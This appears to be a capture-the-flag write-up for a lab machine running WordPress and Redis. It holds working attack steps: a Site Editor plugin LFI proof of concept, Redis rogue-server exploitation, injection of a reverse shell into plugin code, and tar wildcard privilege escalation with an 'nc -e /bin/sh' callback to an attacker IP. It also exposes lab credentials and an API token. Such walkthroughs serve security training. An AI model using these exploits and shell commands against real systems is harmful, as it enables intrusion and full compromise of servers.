










# Network enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/nmapAutomator]
└─$ ./nmapAutomator.sh -H 192.168.231.166 -t full

Running a full scan on 192.168.231.166

Host is likely running Unknown OS!
---------------------Starting Full Scan------------------------

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
Making a script scan on all ports

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Readys &#8211; Just another WordPress site
|_http-generator: WordPress 5.7.2
|_http-server-header: Apache/2.4.38 (Debian)
6379/tcp open  redis   Redis key-value store
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Port Discovery

## 80

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/readys]
└─$ dirsearch -u "http://192.168.231.166/"
Target: http://192.168.231.166/
[09:19:30] Starting:   
[09:20:36] 301 -    0B  - /index.php  ->  http://192.168.231.166/                                                   
[09:20:40] 200 -   19KB - /license.txt                                                                              
[09:20:56] 200 -    7KB - /readme.html                                                  
[09:21:14] 301 -  321B  - /wp-admin  ->  http://192.168.231.166/wp-admin/                                           
[09:21:14] 302 -    0B  - /wp-admin/  ->  http://192.168.231.166/wp-login.php?redirect_to=http%3A%2F%2F192.168.231.166%2Fwp-admin%2F&reauth=1
[09:21:15] 400 -    1B  - /wp-admin/admin-ajax.php        
[09:21:15] 200 -    0B  - /wp-config.php                                                                            
[09:21:15] 200 -    1KB - /wp-admin/install.php 
[09:21:15] 301 -  323B  - /wp-content  ->  http://192.168.231.166/wp-content/
[09:21:15] 200 -    0B  - /wp-content/
[09:21:15] 409 -    3KB - /wp-admin/setup-config.php
[09:21:15] 200 -   69B  - /wp-content/plugins/akismet/akismet.php
[09:21:15] 200 -    1KB - /wp-content/uploads/
[09:21:15] 200 -  779B  - /wp-content/upgrade/
[09:21:15] 200 -    0B  - /wp-includes/rss-functions.php
[09:21:15] 301 -  324B  - /wp-includes  ->  http://192.168.231.166/wp-includes/
[09:21:16] 200 -    8KB - /wp-login.php
[09:21:16] 200 -    0B  - /wp-cron.php
[09:21:16] 302 -    0B  - /wp-signup.php  ->  http://192.168.231.166/wp-login.php?action=register
[09:21:17] 200 -   49KB - /wp-includes/

```

The port of 80 is running `wordpress`, use `wpscan` to get more information.

```bash
┌──(aaron㉿aacai)-[~/Desktop]
└─$ wpscan --api-token ajuxNlm4nDBWhl5VAL17uYsiJXyhaO8BRecXG4qyZZk --url "http://192.168.231.166/"  -e p


[+] WordPress version 5.7.2 identified (Insecure, released on 2021-05-12).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.231.166/index.php/feed/, <generator>https://wordpress.org/?v=5.7.2</generator>
 |  - http://192.168.231.166/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.7.2</generator>
 |

[+] WordPress theme in use: twentytwentyone
 | Location: http://192.168.231.166/wp-content/themes/twentytwentyone/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://192.168.231.166/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 1.8
 | Style URL: http://192.168.231.166/wp-content/themes/twentytwentyone/style.css?ver=1.3
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.231.166/wp-content/themes/twentytwentyone/style.css?ver=1.3, Match: 'Version: 1.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <====================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.231.166/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 
 i] Plugin(s) Identified:

[+] site-editor
 | Location: http://192.168.231.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.231.166/wp-content/plugins/site-editor/readme.txt


```



Find the plugin: site-editor, and then search on google.



The first one said that have a LFI, then try to use this LFI.

```bash
Vulnerable code:
if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && file_exists( $_REQUEST['ajax_path'] ) ){
    require_once $_REQUEST['ajax_path'];
}

** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

It's work.



Then try to load `redis` password.



Get the `redis` password is Ready4Redis?

## 6379

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/nmapAutomator]
└─$ redis-cli -h 192.168.231.166
192.168.231.166:6379> info
NOAUTH Authentication required.
192.168.231.166:6379> exit

```

Redis need authentication, get from `wordpress` LFI.

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ redis-cli -h 192.168.231.166 -a "Ready4Redis?"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
192.168.231.166:6379> PING
PONG
192.168.231.166:6379> 
```

Use [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) to reverse shell.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Hawat/redis-rogue-server-master]
└─$ ./redis-rogue-server.py --rhost 192.168.184.166 --lhost 192.168.45.169 --passwd="Ready4Redis?"
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.184.166:6379
[info] SERVER 192.168.45.169:21000
[info] Setting master...
[info] Authenticating...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.45.169
Reverse server port: 80
[info] Reverse shell payload sent.
[info] Check at 192.168.45.169:80
[info] Unload module...

```

Then get reverse shell from redis.



# PE

## Information Collection

### Cron job



### Wordpress database password



```bash
╔══════════╣ Analyzing Wordpress Files (limit 70) 
-rw-r--r-- 1 alice alice 3194 Nov 16  2021 /var/www/html/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'karl' );
define( 'DB_PASSWORD', 'Wordpress1234' );
define( 'DB_HOST', 'localhost' ); 
```

Check the cronjob script details.

```bash
redis@readys:/var/lib/redis$ cat /usr/local/bin/backup.sh 
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
redis@readys:/var/lib/redis$ ls -al /usr/local/bin/backup.sh 
-rwxr-xr-x 1 root root 122 Nov 17  2021 /usr/local/bin/backup.sh
redis@readys:/var/lib/redis$ 

```

We didn't have permission to change this file, now login to mysql to check the details.

### MySQL

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+

MariaDB [wordpress]> show tables;
| wp_users              |
+-----------------------+
MariaDB [wordpress]> select * from wp_users;
|  1 | admin      | $P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0 | admin         | test@test.com 
```

Then generate a new [wordpress hash](https://codebeautify.org/wordpress-password-hash-generator) to database.

```sql
UPDATE `wp_users` SET `user_pass` = '$P$BSYCmkP3cbJwfNftyCDZbJx0/KFjqW.' WHERE user_login = "admin"
```

Then use admin to login wordpress.Update `site-editor` index.php source code to get rev shell.



Access this path, get reverse shell from Alice.



Then use user alice to PE, right now we know there is a cronjob will automatic running every 3 mins, so we can use `tar` to PE.

```bash
$ echo '#!/bin/bash' > backup.sh

$ $ echo 'nc -e /bin/sh 192.168.45.169 443' >> backup.sh
$ cat backup.sh 
#!/bin/bash
nc -e /bin/sh 192.168.45.169 443
$ touch ./"--checkpoint=1"
$ touch ./"--checkpoint-action=exec=bash backup.sh"
$ ls
--checkpoint-action=exec=bash backup.sh
--checkpoint=1
backup.sh
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php

```

Then get root shell.

```bash
┌──(aaron㉿aaron)-[~/Desktop/script]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.169] from (UNKNOWN) [192.168.184.166] 35074
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/proof.txt
b46523b0963aae9409ce8bd60f4e7b68

```


